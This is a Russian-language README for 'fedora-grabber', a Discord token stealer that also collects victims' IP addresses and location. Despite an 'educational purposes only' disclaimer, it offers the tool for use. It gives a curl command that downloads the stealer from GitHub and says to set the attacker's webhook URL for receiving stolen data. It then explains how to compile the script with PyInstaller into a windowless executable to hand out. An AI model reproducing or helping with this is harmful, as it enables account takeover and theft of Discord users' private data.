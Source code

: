 # fedora-grabber
Токен стиллер &amp; айпи &amp; ОЧЕНЬ МНОГО ИНФЫ! Лучший стиллер в мире.

# Дисклеймер
Я не виноват, если вы используете это.

Эта программа была сделана **ТОЛЬКО В ОБРАЗОВАТЕЛЬНЫХ ЦЕЛЯХ.**

Я не виноват, если вы злоупотребите этим "*вирусом*".

И не надо потом говорить "[Ой-ой-ой, я нажил себе проблем 😿](https://github.com/GlUTEN-BASH/discord_crasher)".
# Что он может делать?
- [x] Работает на всех платформах
- [x] Стаскивает токены с браузеров и клиентов Discord.
- [x] Получает IP клиента, точную (нет) геолокацию и ещё ОЧЕНЬ. МНОГО. ИНФОРМАЦИИ.
# Минусы
- [x] Требуется библиотеки "`re`", "`getpass`", "`requests`", "`discord`", "`platform`", "`datetime`"
- [x] Много не очень понятного кода (может вы и поймёте :))
# Установка
Откройте терминал/"cmd" (так в виндах называется)

и пропишите / [копи-пастните](https://www.google.com/search?q=Вырезать,+копировать,+вставить&client=Amog+OS) эти команды:
```bash
curl https://raw.githubusercontent.com/EZRAIDv2/fedora-grabber/main/src/fedora-grabber.py?token=GHSAT0AAAAAABR357CFMB6RA5NHBAFT3H4CYQWEJRA > fedora-grabber.py
```
Перед прописыванием следующей команды отредактируйте файл так, чтобы в начале было написан URL вебхука.

Пример: ``

Теперь идём дальше.
```bash
python3 fedora-grabber.py
```
Готово! Вы отправили информацию на вебхук.

Вы можете скомпилировать скрипт при помощи `pyinstaller`:
```bash
pip install pyinstaller
pyinstaller --onefile --noconsole fedora-grabber.py
```

Готово, вы скомпилировали скрипт в "`.exe`" или в эльф-файл или ещё что-то,

смотря какая у вас платформа.
